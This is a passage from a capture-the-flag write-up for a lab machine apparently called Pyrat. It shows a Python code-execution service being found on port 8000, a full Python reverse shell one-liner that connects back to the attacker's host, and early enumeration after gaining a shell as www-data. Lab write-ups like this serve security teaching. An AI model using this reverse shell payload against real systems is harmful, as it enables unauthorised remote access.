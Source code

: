 If we make an **HTTP** request to port **8000**, we receive the response: `Try a more basic connection`.

```console
$ curl http://10.10.98.190:8000/
Try a more basic connection
```

Following the message, connecting with `nc` and attempting to run a command, we encounter an error specific to **Python**.

```console
$ nc 10.10.98.190 8000
test
name 'test' is not defined
```

Pursuing this further, we can confirm that we are able to execute **Python** commands.

```console
print(8*8)
64
```

Using this, we can send a **Python** reverse shell payload and obtain a shell as `www-data`.

```py
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.11.72.22",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")
```

```console
$ nc -lvnp 443
listening on [any] 443 ...
connect to [10.11.72.22] from (UNKNOWN) [10.10.98.190] 38688
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## Shell as think

After stabilizing the shell and enumerating the file system, we discover an interesting directory at `/opt`.

```console
www-data@Pyrat:~$ ls -la /opt
total 12
drwxr-xr-x  3 root  root  4096 Jun 21  2023 .
drwxr-xr-x 18 root  root  4096 Dec 22  2023 ..
drwxrwxr-x  3 think think 4096 Jun 21  2023 dev
```

Checking the `/opt/dev` directory, we find a local **git** repository.

```console
www-data@Pyrat:~$ ls -la /opt/dev
total 12
drwxrwxr-x 3 think think 4096 Jun 21  2023 .
drwxr-xr-x 3 root  root  4096 Jun 21  2023 ..
drwxrwxr-x 8 think think 4096 Jun 21  2023 .git
```
